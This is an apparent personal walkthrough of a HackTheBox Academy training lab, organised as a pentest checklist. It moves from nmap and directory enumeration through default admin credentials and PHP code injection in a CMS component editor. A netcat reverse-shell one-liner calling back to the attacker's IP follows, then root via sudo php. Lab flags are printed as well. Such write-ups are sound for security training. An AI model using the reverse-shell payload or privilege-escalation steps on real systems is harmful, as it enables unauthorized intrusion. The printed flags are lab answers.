








HI guys, i have just started my journey with the `cpts` Path!! i’m focusing on the fundamental modules right now to make sure i have the methodology down pat before i dive into the harder HTB machines and practice labs !!!

The lab above is the Knowledge check final lab from [Getting Started](https://academy.hackthebox.com/module/details/77) module !!!

I have to say that if i hadnt learnt cwes first or hung on with ctf chall, i definitely sure that i would have been stuck with that for weeks !!! 

Following is my new checklist for the lab. And well I'm still hardening it :))

## 1. 📄 PRE-ENGAGEMENT / PLANNING

- [x]  Scope (IP, domain, subdomain, app, internal/external)

Target IP : `10.129.3.114`

---

## 2. 🔍 RECON – No need

---

## 3. ⚙️ SCANNING & ENUMERATION

### Network

- [x]  NMAP

```jsx
┌──(kali㉿kali)-[~/Downloads/tool/webhostforexploit]
└─$ nmap 10.129.3.114 -T 4 -sV
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-19 10:27 -0500
Nmap scan report for 10.129.3.114
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.76 seconds

```

### Web



- [x]  Directory brute force
    - [x]  http://10.129.3.114/
        
        ```jsx
        backups                 [Status: 301, Size: 316, Words: 20, Lines: 10, 
        admin                   [Status: 301, Size: 314, Words: 20, Lines: 10, 
        data                    [Status: 301, Size: 313, Words: 20, Lines: 10, 
        index.php               [Status: 200, Size: 5485, Words: 422, Lines: 152,
        index.php               [Status: 200, Size: 5485, Words: 422, Lines: 152,
        plugins                 [Status: 301, Size: 316, Words: 20, Lines: 10, 
        robots.txt              [Status: 200, Size: 32, Words: 3, Lines: 2, Duration: 280ms]
        server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, 
        sitemap.xml             [Status: 200, Size: 431, Words: 7, Lines: 3, Duration: 281ms]
        theme                   [Status: 301, Size: 314, Words: 20, Lines: 10, 
        
        ```
        
    - [x]  http://10.129.3.114/admin
        
        ```jsx
        api.php                 [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 286m
        archive.php             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 282m
        backups.php             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 282m
        components.php          [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 282m
        cron.php                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 4265
        download.php            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 288m
        edit.php                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 298m
        humans.txt              [Status: 200, Size: 828, Words: 122, Lines: 32, Duratio
        image.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 298m
        inc                     [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 
        index.php               [Status: 200, Size: 2623, Words: 150, Lines: 61, Duratio
        index.php               [Status: 200, Size: 2623, Words: 150, Lines: 61, Duratio
        lang                    [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 
        load.php                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 292mlog.php                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 308m
        logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 290m
        navigation.php          [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 287m
        pages.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 287m
        plugins.php             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 296m
        settings.php            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 293m
        share.php               [Status: 200, Size: 2294, Words: 86, Lines: 45, Duratio
        sitemap.php             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1313
        support.php             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 293m
        template                [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 
        theme.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 283m
        upload.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 293m
        zip.php                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 293m
        
        ```
        
- [x]  robots.txt / sitemap.xml
    - [x]  robots.txt
    
    
    
    - [x]  sitemap.xml
        
        ```jsx
        <urlset xsi:schemaLocation="http://www.sitemaps.org/schemas/sitemap/0.9 http://www.sitemaps.org/schemas/sitemap/0.9/sitemap.xsd">
        <url>
        <loc>http://gettingstarted.htb/</loc>
        <lastmod>2021-02-09T09:53:11+00:00</lastmod>
        <changefreq>weekly</changefreq>
        <priority>1.0</priority>
        </url>
        </urlset>
        ```
        

## 4. 🌐 ASSET DISCOVERY

### Subdomain ( no need )

### VHOST  ( no need )

---

## 5. 🧠 VULNERABILITY ANALYSIS

### Network

- [x]  Weak credentials


Using simple cred to bypass admin : admin

### Web

I observed that the 'Edit Components' interface allows for the injection of arbitrary PHP code, which is subsequently executed on the server and reflected on the live website.



I added `<?php phpinfo(); ?>`

Access `http://10.129.3.114/index.php`



Nice ! now we move to next step

---

## 6. ⚔️ EXPLOITATION

With code php arbitrary execute now im going to create a reverse shell connection

Upload this helpful php code (`from hackthebox`)

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc  <ATTACKING IP> <LISTENING PORT> >/tmp/f"); ?>

```

Attacking IP is your ip address in tunel0 interface



```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc  10.10.14.73 1337 >/tmp/f"); ?>

```



And click save Components

Then open  `nc -lvnp 1337`



| **Flag** | **Description** |
| --- | --- |
| `-l` | Listen mode, to wait for a connection to connect to us. |
| `-v` | Verbose mode, so that we know when we receive a connection. |
| `-n` | Disable DNS resolution and only connect from/to IPs, to speed up the connection. |
| `-p 1337` | Port number `netcat` is listening on, and the reverse connection should be sent to. |

Ater completing the steps above, navigate back to http://10.129.3.114/index.php and refresh the page. This action triggers the execution of the injection payload, with that i successfully establish  a reverse shell connection



- [x]  Proof of Concept
- [x]  Shell / Access
- [x]  Dump data
    - [x]  user.txt in home dir
    
    ```php
    $ cat user.txt
    7002d65b149b0a4d19132a66feed21d8
    ```
    
    First flag : `7002d65b149b0a4d19132a66feed21d8`
    
- [x]  Privilege escalation
    - [x]  `sudo -l`
    
    I performed an enumeration of sudo previleges using sudo -l. The output revealed that my current user is permitted to exec the php binary(/usr/bin/php) with root priv without requiring a password
    
    ```php
    $ sudo -l
    Matching Defaults entries for www-data on gettingstarted:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User www-data may run the following commands on gettingstarted:
        (ALL : ALL) NOPASSWD: /usr/bin/php
    ```
    
    NOw im going to use [GTFOBins](https://gtfobins.org/) technique to gain root priv
    
    > `sudo php -r "system('/bin/bash');”`
    > 
    
    ```php
    $ sudo php -r "system('/bin/bash');"
    id
    uid=0(root) gid=0(root) groups=0(root)
    cd /root
    ls
    root.txt
    snap
    cat root.txt
    f1fba6e9f71efb2630e6e34da6387842
    ```
    
    Final Flag : `f1fba6e9f71efb2630e6e34da6387842`